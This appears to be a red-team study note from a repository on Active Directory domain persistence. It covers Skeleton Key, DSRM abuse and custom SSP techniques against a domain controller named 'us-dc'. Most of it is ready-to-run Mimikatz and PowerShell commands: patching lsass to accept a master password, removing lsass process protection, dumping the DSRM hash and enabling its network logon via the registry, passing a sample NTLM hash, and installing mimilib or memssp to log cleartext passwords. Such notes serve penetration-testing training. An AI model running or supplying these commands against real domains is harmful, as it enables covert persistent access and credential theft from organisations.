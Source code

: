 # Domain Persistence - Skeleton Key, DSRM and Custom SSP

- [Domain Persistence - Skeleton Key, DSRM and Custom SSP](#domain-persistence---skeleton-key-dsrm-and-custom-ssp)
  - [Skeleton Key](#skeleton-key)
  - [DSRM](#dsrm)

---

## Skeleton Key

**Skeleton key** is a persistence technique where it is possible to patch a Domain Controller (`lsass` process) so that it allows access as any user with a single password.

The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.

All the publicly known methods are **NOT persistent across reboots**. Yet again, `mimikatz` to the rescue.

<br/>

Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. 

Note:
DA privileges required

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

<br/>

Now, it is possible to access any machine with a valid username and password as "mimikatz"

```
Enter-PSSession -Computername us-dc -credential us\Administrator
```

You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted.

<br/>

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (`mimidriv.sys`) on disk of the target DC:

```
mimikatz # privilege::debug 
mimikatz # !+ 
mimikatz # !processprotect /process:lsass.exe /remove 
mimikatz # misc::skeleton 
mimikatz # !-
```

Note that above would be very noisy in logs - **Service creation**!

<br/>

---

## DSRM

**DSRM** is Directory Services Restore Mode. There is a local administrator on every DC called "`Administrator`" whose password is the DSRM password.

DSRM password (SafeModePassword) is saved when a server is promoted to Domain Controller and it is rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

<br/>

Dump DSRM password.

Note:
DA privs required.

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc
```

<br/>

Note:
You may compare the NTLM of domain's `administrator` and DSRM's `administrator` using:<br/>
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' Computername us-dc`<br/>
The first one is DSRM local administrator

<br/>

Since it is the 'local' administrator of the DC, we can pass the hash to authenticate. But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```
Enter-PSSession -Computername us-dc
```

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

<br/>

Then use Mimikatz the pass the hash:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```

Try to list the root of `us-dc`:

```
ls \\us-dc\c$
```

<br/>

To use PSRemoting, we must force NTLM authentication:

```
Enter-PSSession -ComputerName us-dc -Authentication Negotiate
```

<br/>

---

A **Security Support Provider (SSP)** is a **DLL** which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:

- NTLM
- Kerberos
- WDigest
- CredSSP

Mimikatz provides a custom SSP - `mimilib.dll`. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

<br/>

We can use either of the ways:

**Method 1:**<br/> 
Drop the `mimilib.dll` to system32 and add `mimilib` to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:

```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

```

<br/>

**Method 2:**<br/>
Using **mimikatz**, inject into `lsass` (Not stable with Server 2016 and 2019):

```
Invoke-Mimikatz -Command '"misc::memssp"'
```

<br/>

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`:

![picture 55](images/27a9396ec4d402ca463fddbfb58244d20aaaef1c98e3fa0e2fcbeea6e03dd939.png)  

<br/>



